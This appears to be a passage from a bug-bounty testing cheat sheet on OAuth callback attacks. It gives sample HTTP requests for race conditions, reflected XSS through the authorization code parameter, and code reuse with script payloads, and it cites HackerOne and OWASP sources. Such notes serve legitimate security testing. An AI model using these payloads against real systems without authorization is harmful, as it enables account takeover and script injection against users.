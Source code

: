 ### Race Condition

> Try To Figure Out Reaction Of The Server While Doing Race Condition By Using Turbo Intruder OR Nuclei To Send Simultaneously Requests

```http
GET /oauth/Callback?code=Valid HTTP/1.1
Host: www.company.com
X-Test: %s
email=victim@gmail.com&otp=wrongOTP
```

{% embed url="https://hackerone.com/reports/55140" %}

### XSS in the `code=` parameter

> Try To Insert XSS Payloads e.g. ,%2520alert(123))%253B// In The Authorization Code Parameter If Value Of Code Parameter Reflected

```http
GET /oauth/Callback?code=,%2520alert(123))%253B// HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
Referer: https://previous.com/path
Origin: https://www.company.com
```

{% embed url="https://hackerone.com/reports/56760" %}

### Reuse The Authorization Code With XSS Payloads

> If The Authorization Code Is Used More Than Once Try To Reuse The Authorization Code With XSS Payloads e.g. Codealert('XSS')

```http
POST /oauth/Callback HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
Content-Type: application/x-www-form-urlencoded
Referer: https://previous.com/path
Origin: https://www.company.com
Content-Length: Number
client_id=ID&client_secret=SECRET&type=Authorization&code=
Auth_Code<script>alert('XSS')</script>&redirect_uri=URL
```

{% embed url="https://owasp.org/www-pdf-archive/20151215-Top_X_OAuth_2_Hacks-asanso.pdf" %}

{% embed url="http://blog.intothesymmetry.com/2014/02/oauth-2-attacks-and-bug-bounties.html" %}

### Use The OAuth Token With Logged In User In OAuth Provider

> \*\*\* If App Ask You Log In With OAuth Provider By Generating OAuth Token , Try To Use The OAuth Token With Logged In User In OAuth Provider
